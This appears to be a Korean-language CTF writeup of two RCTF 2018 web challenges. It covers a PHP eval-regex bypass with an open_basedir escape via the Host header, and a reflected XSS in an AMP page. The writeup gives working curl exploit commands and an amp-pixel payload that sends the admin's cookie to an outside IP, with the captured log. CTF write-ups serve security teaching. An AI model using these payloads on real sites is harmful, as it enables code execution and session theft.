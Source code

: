 ```yaml
---
title: RCTF 2018 Quals
description: RCTF 2018 Quals Challenge writeup
categories:
 - writeup
tags:
 - web
 - open_basedir
 - eval
 - pwn
 - 
---
```


> RCTF 2018 Quals
>
> Web + Pwnable writeup
>
> written by korean. 

<!-- more --> 

## Introduce

뭔가 요즘 xctf 플랫폼을 많이 사용하는 것 같다.

## writeup

### - r-cursive

> LUL dat font
>
> http://r-cursive.ml

문제에 접속하면 단순히 sandbox를 생성해주는 페이지에 접속한다.~~(폰트가 정말 거지같다.)~~

```html
<?php
$token = sha1($_SERVER['REMOTE_ADDR']);
$dir = '../sandbox/'.$token.'/';
is_dir($dir) ?: mkdir($dir);
is_file($dir.'index.php') ?: file_put_contents($dir.'index.php', str_replace('#SHA1#', $token, file_get_contents('./template')));
switch($_GET['action'] ?: ''){
    case 'go':
        header('Location: http://'.$token.'.sandbox.r-cursive.ml:1337/');
        break;
    case 'reset':
        system('rm -rf '.$dir);
        break;
    default:
        show_source(__FILE__);
}
?>
<style>code{font-family: Segoe Script, Brush Script MT, cursive; font-size: 1.337em;}</style>
```

action=go를 통해 sandbox페이지로 이동해보면 소스코드는 간단하다.

```html
<?php
sha1($_SERVER['REMOTE_ADDR']) === 'c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295' ?: die();
';' === preg_replace('/[^\W_]+\((?R)?\)/', NULL, $_GET['cmd']) ? eval($_GET['cmd']) : show_source(__FILE__);
```

cmd뒤에 명령어를 삽입해주면 되는데, 정규식으로 인해 쿼리는 `phpinfo();`, `print_r(scandir(getcwd()));` 와 같은 형태로 함수로만 넣을 수 있다.

하지만 이 문제는 `open_basedir`이 적용되어 있어, `/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/`,`/tmp/` 외의 디렉토리는 사용할 수 없다.

disable_functions, disable_classes를 보기위해 `phpinfo()` 를 실행시켰는데, 다른 것 또한 발견하였다.

```ini
disable_functions = system,shell_exec,passthru,exec,popen,proc_open,pcntl_exec,mail,putenv,apache_setenv,mb_send_mail,assert,dl,set_time_limit,ignore_user_abort,symlink,link	
disable_clsass = GlobIterator,DirectoryIterator,FilesystemIterator,RecursiveDirectoryIterator	
auto_prepend_file = /var/www/sandbox/init.php
open_basedir = /var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/:/tmp/	
Loaded Modules = ... mod_vhost_alias
```

우선 정규식을 우회하기 위해 `getallheaders()`함수를 사용했다.

```
$ curl "http://c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295.sandbox.r-cursive.ml:1337/?cmd=eval(end(getallheaders()));" -H "a:print_r(readfile('../init.php'));print_r(ini_get('open_basedir'));" 
<br />
<b>Warning</b>:  readfile(): open_basedir restriction in effect. File(../init.php) is not within the allowed path(s): (/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/:/tmp/) in <b>/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/index.php(3) : eval()'d code(1) : eval()'d code</b> on line <b>1</b><br />
<br />
<b>Warning</b>:  readfile(../init.php): failed to open stream: Operation not permitted in <b>/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/index.php(3) : eval()'d code(1) : eval()'d code</b> on line <b>1</b><br />
/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/:/tmp/
```

이제 `open_basedir`을 우회하기 위해 header의 host를 `.r-cursive.ml` 로 변경하였고, 이로 인해 sandbox를 탈출하여 init.php를 열었고 플래그를 획득할 수 있었다.

```
$ curl "http://c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295.sandbox.r-cursive.ml:1337/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/?cmd=eval(end(getallheaders()));" -H "a:print_r(readfile('../init.php'));print_r(ini_get('open_basedir'));" -vv -H "Host:.r-cursive.ml"

<?php
    ini_set("open_basedir", $_SERVER['DOCUMENT_ROOT']."/:/tmp/");
    // flag: RCTF{apache_mod_vhost_alias_should_be_configured_correctly}
?>
```

FLAG : RCTF{apache_mod_vhost_alias_should_be_configured_correctly}

### - AMP

> Building the future web, together.
>
> http://amp.2018.teamrois.cn
>
> 

페이지에 접속하면 steins;gate 0를 배경으로 한 페이지가 나타난다.

```html
<!doctype html>
<html ⚡>
  <head>
    <meta charset="utf-8">
    <script async src="https://cdn.ampproject.org/v0.js" nonce="a42dd51d96f82575cfd2fe674c3bb46e"></script>
    <title>⚡</title>
    <link rel="canonical" href="http://example.ampproject.org/article-metadata.html">
    <meta name="viewport" content="width=device-width,minimum-scale=1,initial-scale=1">
    <script type="application/ld+json" nonce="a42dd51d96f82575cfd2fe674c3bb46e">
      {
        "@context": "http://schema.org",
        "@type": "NewsArticle",
        "headline": "Open-source framework for publishing content",
        "datePublished": "2015-10-07T12:02:41Z",
        "image": [
          "logo.jpg"
        ]
      }
    </script>
    <style amp-boilerplate>body{-webkit-animation:-amp-start 8s steps(1,end) 0s 1 normal both;-moz-animation:-amp-start 8s steps(1,end) 0s 1 normal both;-ms-animation:-amp-start 8s steps(1,end) 0s 1 normal both;animation:-amp-start 8s steps(1,end) 0s 1 normal both}@-webkit-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-moz-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-ms-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-o-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}</style><noscript><style amp-boilerplate>body{-webkit-animation:none;-moz-animation:none;-ms-animation:none;animation:none}</style></noscript>
    <style amp-custom>body {background:url(background.jpg) no-repeat;background-size:cover;}html,body,.main{min-height:100vh;width:100%;color:#fff;}.main{align-items: center;display: flex;justify-content: center; flex-direction: column;}.main *{ zoom: 2;}.grecaptcha-badge{display: none}</style>
  </head>
  <body>
      <div class="main">
        <h1>HEY</h1>
        <h3>INPUT YOUR NAME AFTER QUERYSTRING</h3>
      </div>
  </body>
</html>

```

Querystring에 name을 넣으라고 하니까 넣어보자.

```
http://amp.2018.teamrois.cn/?name=shpik
```

그러면 페이지에 다음과 같은 문구가 추가된다.

```html
Dear shpik:
YOU'RE BEING TRACKING
<!-- OK, I don't care AMP Standard -->
<!-- It just wastes my time. -->
[STOP TRACKING ME]
```

..?  `STOP TRACKING ME` 를 누르면 뭔가 admin이 이 페이지를 읽는 것 같다.

그 외에 스크립트 또한 삽입이 잘 되는 걸로 봐서 `Reflect XSS` 인 모양이다. 

`AMP`라는 `javascript` 모듈을 사용하는 것 같아서 찾아보았고, 다음의 정보를 찾았다.([AMP Project](https://github.com/ampproject/amphtml/blob/master/spec/amp-var-substitutions.md#client-id))

> #### Client ID
>
> Provides a per document-source-origin (the origin of the website where you publish your AMP doc) and user identifier. The client ID will be the same for the same user if they visit again within one year. The client ID should behave roughly similar to a cookie storing a session ID for one year. If the AMP document is not served through the Google AMP Cache, the client ID is replaced with a cookie of the name of the `cid scope` argument (see below). If it is not present, a cookie will be set with the same name. These cookies will always have the prefix "amp-" followed by a random base64 encoded string.
>
> - **platform variable**: `CLIENT_ID`
>
>   - Example: 
>
>   ```
>   <amp-pixel src="https://foo.com/pixel?cid=CLIENT_ID(cid-scope-cookie-fallback-name)"></amp-pixel>
>   
>   <amp-user-notification
>       layout=nodisplay
>       id="user-consent"
>       data-show-if-href="https://foo.com/api/show"
>       data-dismiss-href="https://foo.com/api/dismissed">
>       This site uses cookies to personalize content.
>       <a href="">Learn more.</a>
>      <button on="tap:user-consent.dismiss">I accept</button>
>   </amp-user-notification>
>   
>   <!-- Client ID is not provided until `user-consent` is dismissed -->
>   <amp-pixel src="https://foo.com/pixel?cid=CLIENT_ID(cid-scope-cookie-fallback-name,user-consent)"></amp-pixel>
>   ```
>
> - **amp-analytics variable**: `${clientId}`
>
>   - Example usage: `${clientId(foo)}`
>   - Example value: `U6XEpUs3yaeQyR2DKATQH1pTZ6kg140fvuLbtl5nynbUWtIodJxP5TEIYBic4qcV`

저기에 있는 `Example` 을 그냥 가져다 써도 될 것 같다.

```html
<amp-pixel src="https://35.200.67.206:10101/?cid=CLIENT_ID(FLAG)"></amp-pixel>
<amp-user-notification layout=nodisplay id="FLAG" data-show-if-href="https://35.200.67.206:10101" data-dismiss-href="https://35.200.67.206:10101">This site uses cookies to personalize content.<a href="">Learn more.</a><button on="tap:user-consent.dismiss">I accept</button></amp-user-notification>
<amp-pixel src="https://35.200.67.206:10101/?cid=CLIENT_ID(FLAG,FLAG)"></amp-pixel>
```

위의 코드를 name으로 넣어주었으며, FLAG를 얻을 수 있었다.

```
"GET /?cid=flag_is_in_admin_cookie HTTP/1.1" 200 -
"GET /?cid= HTTP/1.1" 200 -
"GET /?cid=RCTF%7BEl_PsY_CONGRO0_sg0%7D HTTP/1.1" 200 -
"GET /?cid= HTTP/1.1" 200 - 
```

FLAG : RCTF{El_PsY_CONGRO0_sg0}